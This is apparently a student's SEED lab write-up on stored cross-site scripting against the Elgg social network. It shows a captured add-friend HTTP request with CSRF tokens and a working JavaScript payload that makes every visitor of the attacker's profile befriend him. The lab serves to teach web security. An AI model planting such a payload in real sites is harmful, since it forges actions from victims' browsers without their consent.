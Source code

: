 ### Task 4

For this task, we aim to make Samy (the attacker account) a friend to any other user that visits his profile page. To accomplish that, we must insert malicious JavaScript in the homepage of Sammy's account, so when a user visits his page it will forge an HTTP request directly from the victim’s browser.

We start by understanding how a legitimate user adds a friend on Elgg, and we analyze the content of the HTTP request when adding a friend through the "HTTP Header Live" add-on tool to Inspect HTTP Headers. The following result shows us that we can get the id associated with the account added as a friend (**friend=59**) and two parameters, **\_\_elgg_ts** and **\_\_elgg_token.** These two parameters are used as a countermeasure to CSRF attacks. Since they change for each web user, it was saved in two variables, `ts` and `token`, the value obtained through access **elgg.security.token.\_\_elgg_ts** and **elgg.security.token.\_\_elgg_token**. These two parameters are added as security tokens and timestamps to every user action to be performed, by the Elgg application.

```
**http://www.seed-server.com/action/friends/add?friend=59&__elgg_ts=1641377945&__elgg_token=zBaPhORlU3G5CmU3GjZ3IQ&__elgg_ts=1641377945&__elgg_token=zBaPhORlU3G5CmU3GjZ3IQ**
Host: www.seed-server.com
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:94.0) Gecko/20100101 Firefox/94.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
Connection: keep-alive
Referer: http://www.seed-server.com/profile/alice
Cookie: Elgg=5j2ttdfp8b87t2k1encss21r15

**GET: HTTP/1.1 200 OK**
Date: Wed, 05 Jan 2022 10:19:11 GMT
Server: Apache/2.4.41 (Ubuntu)
Cache-Control: must-revalidate, no-cache, no-store, private
expires: Thu, 19 Nov 1981 08:52:00 GMT
pragma: no-cache
x-content-type-options: nosniff
Vary: User-Agent
Content-Length: 388
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive
Content-Type: application/json; charset=UTF-8
```

With the information taken above, we can use it to construct the following javascript using AJAX to recreate the add friend request and place it in the _Brief description_ field with the Text mode enabled. The first line is where we can see the endpoint to make a friend request to Samy. This will result in any user who accesses Sammy's profile, with id=59, being added as their friend.

```jsx
<script type="text/javascript">
window.onload = function () {
	var Ajax=null;
	var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;
	var token="&__elgg_token="+elgg.security.token.__elgg_token;
	//Construct the HTTP request to add Samy as a friend.
	var sendurl="http://www.seed-server.com/action/friends/add?friend=59"+ts+token+ts+token;
	//Create and send Ajax request to add friend
	Ajax=new XMLHttpRequest();
	Ajax.open("GET", sendurl, true);
	Ajax.send();
}
</script>
```
